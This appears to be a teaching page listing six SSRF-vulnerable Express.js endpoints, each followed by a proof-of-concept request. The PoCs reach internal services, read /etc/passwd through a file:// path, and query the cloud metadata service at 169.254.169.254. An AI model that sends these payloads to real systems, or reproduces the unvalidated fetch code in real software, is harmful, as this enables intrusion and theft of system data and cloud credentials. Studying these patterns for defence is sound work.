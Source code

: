 ### 1. **Using URL from Parameter Without Validation**

#### **Code Example:**

```javascript
// Fetching data from the given URL parameter
app.get('/fetch', (req, res) => {
    const url = req.query.url; // Get the URL from the query parameter
    fetch(url) // Make an HTTP request to the specified URL
        .then(response => response.text())
        .then(data => res.send(data))
        .catch(error => res.status(500).send(error.message));
});
```

#### **PoC:**

An attacker can call the endpoint with an unsafe URL:

```
http://example.com/fetch?url=http://internal-service.local/private-data
```

### 2. **Reading Local Files Using URL**

#### **Code Example:**

```javascript
// Fetching content from a local file based on the provided URL
app.get('/file', (req, res) => {
    const filePath = req.query.path; // Get the file path from the query parameter
    fetch(`file://${filePath}`) // Make a request to the local file
        .then(response => response.text())
        .then(data => res.send(data))
        .catch(error => res.status(500).send(error.message));
});
```

#### **PoC:**

An attacker can access local system files:

```
http://example.com/file?path=/etc/passwd
```

### 3. **Fetching Data from Internal API**

#### **Code Example:**

```javascript
// Fetching data from an API based on the provided URL parameter
app.post('/api/getData', (req, res) => {
    const apiUrl = req.body.url; // Get the URL from the request body
    axios.get(apiUrl) // Use axios to make a request to the URL
        .then(response => res.json(response.data))
        .catch(error => res.status(500).send(error.message));
});
```

#### **PoC:**

An attacker can call the API with a URL pointing to an internal service:

```
http://example.com/api/getData
Body:
{
    "url": "http://internal-api.local/resource"
}
```

### 4. **Calling URL from Service Discovery**

#### **Code Example:**

```javascript
// Calling a URL from service discovery based on the provided parameter
app.get('/discover', (req, res) => {
    const serviceUrl = req.query.service; // Get the service URL from the query parameter
    const targetUrl = `http://service-discovery.local/${serviceUrl}`; // Forming the service URL
    fetch(targetUrl) // Make a request to the service
        .then(response => response.json())
        .then(data => res.json(data))
        .catch(error => res.status(500).send(error.message));
});
```

#### **PoC:**

An attacker can exploit this to access unauthorized services:

```
http://example.com/discover?service=sensitive-data
```

### 5. **Fetching Data from URL Using Proxy**

#### **Code Example:**

```javascript
// Fetching data from a URL using a proxy
app.get('/proxy', (req, res) => {
    const targetUrl = req.query.url; // Get the URL from the query parameter
    http.get(targetUrl, (response) => {
        let data = '';
        response.on('data', chunk => { data += chunk; });
        response.on('end', () => res.send(data));
    }).on('error', (error) => res.status(500).send(error.message));
});
```

#### **PoC:**

An attacker can make a request to an internal URL:

```
http://example.com/proxy?url=http://169.254.169.254/latest/meta-data/
```

### 6. **Fetching URL from Form Input**

#### **HTML Form Code:**

```html
<form action="/get" method="POST">
    <input type="text" name="url" />
    <button type="submit">Get Data</button>
</form>
```

#### **JavaScript Code:**

```javascript
// Fetching data from the URL provided in the form
app.post('/get', (req, res) => {
    const url = req.body.url; // Get the URL from the form input
    fetch(url) // Make a request to that URL
        .then(response => response.text())
        .then(data => res.send(data))
        .catch(error => res.status(500).send(error.message));
});
```

#### **PoC:**

An attacker can input a malicious URL:

```
http://example.com/get
Body:
{
    "url": "http://internal-service.local/data"
}
```
